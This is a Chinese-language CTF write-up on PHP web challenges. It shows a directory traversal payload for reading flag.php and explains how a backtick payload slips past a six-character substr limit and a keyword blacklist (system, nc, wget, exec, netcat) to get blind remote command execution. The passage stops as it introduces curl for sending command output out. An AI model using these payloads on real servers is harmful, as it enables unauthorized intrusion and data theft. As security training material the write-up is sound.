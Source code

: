一个可能的`payload`：

    ?f=/ctfshow/../../../../../../var/www/html/flag.php

这里`ctfshow`目录是不存在的，但仍然可以访问到`flag.php`。

## 字符串截断-变量覆盖

这里主要是针对某些情况下的`RCE`被限定字符长度。先上示例：

    //flag.php
    if($F = @$_GET['F']){
        if(!preg_match('/system'nc'wget'exec'passthru'netcat/i', $F)){
            eval(substr($F,0,6));
        }else{
            die("6个字母都还不够呀?!");
        }
    }

可以看到难点即在于这个`substr`。但这个地方，观察后发现`$_GET['F']`被赋值给了`$F`，接下来这个变量才被用于截断。那先上`payload`，再解释。

    ?F=<code>$F </code>;sleep 3

通过传入上面的`payload`，`$F`变量在`if`语句里面被赋值为:

    <code>$F </code>;sleep 3

这样一来，在`eval`函数的地方，将先执行`substr($F,0,6)`（先后顺序，和我们传入的无关）

然后这段代码其实执行的是：

    eval("<code>$F </code>;");

相当于执行了这个：

    <code>$F </code>;

我们知道反引号其实是`shell_exec`函数，那么最终相当于执行：

    shell_exec($F );

已知`$F`是整段`payload`，那么即执行了：

    shell_exec("<code>$F </code>;sleep 3");

在服务器上执行了两个命令，以冒号分隔，分别是：

    <code>$F </code>

和

    sleep 3

到这里我们明白，`payload`中`;`之后的是我们可以操控执行的任意无回显`RCE`。其实感觉主要是变量赋值和`eval`的使用不当，不太是变量覆盖，毕竟也没有覆盖什么变量。

## CURL带出命令执行结果

无回显的RCE有多种解决方法，此处写一下使用`CURL`带出命令。

`CURL`是一个命令行的`web`数据包工具，功能还比较强大，有空可以专门来写一下`CURL`用法。
